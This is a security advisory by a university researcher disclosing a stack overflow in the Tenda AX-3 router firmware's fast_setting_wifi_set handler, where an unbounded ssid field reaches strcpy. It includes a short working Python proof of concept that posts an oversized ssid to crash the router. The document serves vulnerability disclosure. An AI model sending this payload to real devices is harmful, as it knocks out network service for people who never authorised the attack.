


# Tenda Vulnerability

Vendor:Tenda

Product:AX-3

Version:v16.03.12.10_CN(https://www.tenda.com.cn/material/show/3238)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

The ssid parameter in /goform/fast_setting_wifi_set is propagated to the strcpy function via the v6 parameter. The buffer size of the target parameter par is 0x40u, but there is no restriction on the length of the ssid parameter, which can lead to a stack overflow, resulting in a Denial of Service (DoS) attack.

<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/fast_setting_wifi_set"

ssid = "A"*700 + "2.4G" + "B"*50  
data = {
"ssid": ssid,
"unity_enable": "0"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>